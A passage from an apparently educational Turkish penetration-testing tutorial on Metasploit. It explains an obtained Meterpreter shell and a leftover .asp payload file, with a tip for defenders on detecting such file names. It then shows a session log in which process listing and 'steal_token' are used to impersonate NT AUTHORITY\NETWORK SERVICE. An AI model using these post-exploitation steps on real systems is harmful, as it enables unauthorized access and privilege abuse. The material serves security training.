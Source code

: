 Meterpreter shell'imiz var. Ancak, yukarıdaki çıktıya yakından bakın. Şu anda hedef sistemde `metasploit28857905` adında bir `.asp` dosyasının bulunduğunu görebiliriz. Meterpreter shell elde edildiğinde, daha önce de belirtildiği gibi, bellekte bulunacaktır. Bu nedenle, dosyaya ihtiyaç yoktur ve erişim izinleri nedeniyle başarısız olan `msfconsole` tarafından kaldırılmaya çalışılmıştır. Bu gibi izler bırakmak saldırgan için faydalı değildir ve büyük bir sorumluluk yaratır.  

Sistem yöneticisinin bakış açısına göre, bu ad türüyle veya küçük varyasyonlarıyla eşleşen dosyaları bulmak, bir saldırıyı izlerinin ortasında durdurmak için yararlı olabilir. Yukarıdaki gibi dosya adlarına veya imzalara karşı regex eşleşmelerini hedeflemek, bir saldırganın doğru yapılandırılmış güvenlik önlemleri tarafından kesilmeden önce bir Meterpreter shell oluşturmasına bile izin vermeyecektir.  

İstismarlarımıza devam ediyoruz. Hangi kullanıcı üzerinde çalıştığımızı görmeye çalıştığımızda erişim reddedildi mesajı alıyoruz. Prosesimizi daha fazla ayrıcalığa sahip bir kullanıcıya geçirmeyi denemeliyiz.


#### MSF - Meterpreter Migration

```shell-session
meterpreter > getuid

[-] 1055: Operation failed: Access is denied.


meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 216   1080  cidaemon.exe                                                    
 272   4     smss.exe                                                        
 292   1080  cidaemon.exe                                                    
<...SNIP...>

 1712  396   alg.exe                                                         
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    


meterpreter > steal_token 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE


meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```
